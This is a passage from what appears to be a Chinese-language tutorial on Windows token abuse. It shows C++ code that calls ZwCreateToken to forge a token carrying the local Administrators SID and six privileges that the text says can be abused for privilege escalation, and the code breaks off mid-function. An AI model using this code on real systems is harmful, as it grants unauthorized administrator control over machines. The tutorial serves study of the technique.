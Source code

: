 ```c++
	printf("[-] Failed to load ZwCreateToken: %d\n", GetLastError());
	return NULL;
}
wprintf(L"[*] ZwCreateToken function loaded.\n");
```

由于要创建一个新的令牌，因此必须向 `ZwCreateToken()` 函数提供令牌的 TokenPrivileges、TokenGroups、TokenPrimaryGroup 和 TokenDefaultDacl 等信息。我们不需要自己构造这些信息，只需要从当前进程令牌中获取，最后将这些进行传入 `ZwCreateToken()` 函数。在此之前，需要在获取到的 TokenGroups 信息中设置 LocalAdminGroupSID 和 IntegrityMediumSID 两个 SID，以保证新生成的令牌拥有本地管理员权限并且完整性等级为 Medium。

```c++
pTokenPrivileges = (PTOKEN_PRIVILEGES)LocalAlloc(LMEM_FIXED, sizeof(TOKEN_PRIVILEGES) + (sizeof(LUID_AND_ATTRIBUTES) * 4));
pTokenPrivileges = (PTOKEN_PRIVILEGES)GetTokenInfo(hToken, TokenPrivileges);
SetTokenPrivileges(pTokenPrivileges);
pTokenGroups = (PTOKEN_GROUPS)GetTokenInfo(hToken, TokenGroups);
pTokenPrimaryGroup = (PTOKEN_PRIMARY_GROUP)GetTokenInfo(hToken, TokenPrimaryGroup);
pTokenDefaultDacl = (PTOKEN_DEFAULT_DACL)GetTokenInfo(hToken, TokenDefaultDacl);

for (DWORD i = 0; i < pTokenGroups->GroupCount; i++)
{
	if (pTokenGroups->Groups[i].Attributes & SE_GROUP_INTEGRITY)
  	{
    	memcpy(pTokenGroups->Groups[i].Sid, &IntegrityMediumSID, sizeof(IntegrityMediumSID));
    	wprintf(L"[*] Set the token integrity level to medium.\n");
  	}

  	pSid = (PISID)pTokenGroups->Groups[i].Sid;
  	if (pSid->SubAuthority[pSid->SubAuthorityCount - 1] == DOMAIN_ALIAS_RID_USERS)
  	{
    	memcpy(pSid, &LocalAdminGroupSID, sizeof(LocalAdminGroupSID));
    	pTokenGroups->Groups[i].Attributes = SE_GROUP_ENABLED;
    	wprintf(L"[*] Add extra SID S-1-5-32-544 to token.\n");
  	}
  	else
  	{
        pTokenGroups->Groups[i].Attributes &= ~SE_GROUP_USE_FOR_DENY_ONLY;
        pTokenGroups->Groups[i].Attributes &= ~SE_GROUP_ENABLED;
  	}
}
```

于此同时，我们当然可以为新生成的令牌开启一些新的危险特权。如下所示，`SetTokenPrivileges()` 函数在令牌的 TokenPrivileges 信息中启用了以下六个特权，他们都可以被滥用以实现特权提升。

- SeImpersonatePrivilege
- SeAssignPrimaryTokenPrivilege
- SeCreateTokenPrivilege
- SeRestorePrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege

```c++
void SetTokenPrivileges(PTOKEN_PRIVILEGES pTokenPrivileges)
{
	LUID luid;

	pTokenPrivileges->PrivilegeCount = 6;

	// Enable SeImpersonatePrivilege
	LookupPrivilegeValue(NULL, SE_IMPERSONATE_NAME, &luid);
	pTokenPrivileges->Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
	pTokenPrivileges->Privileges[0].Luid = luid;

	// Enable SeAssignPrimaryTokenPrivilege
	LookupPrivilegeValue(NULL, SE_ASSIGNPRIMARYTOKEN_NAME, &luid);
```